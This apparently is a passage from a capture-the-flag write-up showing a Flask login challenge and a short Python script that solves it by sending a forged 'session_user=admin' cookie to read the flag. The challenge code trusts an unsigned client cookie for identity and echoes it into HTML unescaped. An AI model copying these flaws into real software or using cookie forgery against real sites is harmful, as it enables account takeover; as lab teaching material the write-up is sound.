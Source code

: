 ```python
db.execute("""INSERT INTO users SELECT "guest" as username, "password" as password""")

@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

    # https://www.sqlite.org/lang_select.html
    user = db.execute("SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
    if not user:
        flask.abort(403, "Invalid username or password")

    response = flask.redirect(flask.request.path)
    response.set_cookie('session_user', username)
    return response

@app.route("/", methods=["GET"])
def challenge_get():
    if not (username := flask.request.cookies.get("session_user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return page + """
        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    """

app.secret_key = os.urandom(8)
app.config['SERVER_NAME'] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

This time we could not change the session_id from the url, but since we know the session_id of the admin, we can just spesify it in the post request. This python script solves the challenge:
```python
import requests

cookies = {'session_user': 'admin'}
data = {'username': 'guest', 'password': 'password'}


r_post = requests.post('http://challenge.localhost', data=data, cookies=cookies)
print(r_post.text)
```
